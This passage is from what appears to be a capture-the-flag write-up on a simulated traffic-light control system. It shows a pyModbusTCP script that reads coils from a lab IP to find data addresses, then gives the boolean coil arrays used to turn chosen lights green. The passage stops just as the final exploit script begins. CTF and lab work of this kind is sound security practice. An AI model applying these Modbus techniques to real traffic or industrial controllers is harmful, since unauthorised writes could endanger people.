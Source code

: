 data_address = {}

for i in range(1,7):
    c = ModbusClient(host="10.129.96.95", port="502", unit_id=i, auto_open=True)

    regs = c.read_coils(0,2000)

    data_address[i] = regs.index(True)

print(data_address)
```

I wrote this script to get the DATA_ADDRESS of all the 1/True places.

```
{1: 571, 2: 1921, 3: 531, 4: 1267, 5: 925, 6: 888}
```

# The exploit?

Now I have all the necessary information on the data address of where they are reading the traffic data from, I can create a payload to change the traffic lights. 

The first three bits represents the North side of the light, and goes in order of 

Green Yellow Red 

IF we curl the api `http://10.129.96.95/api` we can see value for all the colors and the direction. 

![](/lighttheway/curl.png)


After doing some digging I found out that the API doesn't represent the data in the same way the registers stores the data. 

In the registers we need to pass in data as follow:

```
NG NY NR EG EY ER SG SY SR WG WY WR
```
![](/lighttheway/lights.png)

Looking at the picture we need to change the west side to green because the car is about to turn towards west for the first junction, and we have to turn the East side to Green for the 2nd and 4th junction, and finally the north side for 6th junction.

So the values for junction one are as follow:
```
[False, False, True, False, False, True, False, False, True, True, False, False]
```
This will turn on the green light on the west.

```
[False, False, True, False, False, True, False, False, True, False, False, True]
```


So, What I was saying about the direction didn't make any sense, I had to play around for a long time before I figured out the correct light to turn on. The placement of the lights didn't sense to me, it might be becuase the difference in driving in different country.

The following script did the job.

```
from pyModbusTCP.client import ModbusClient
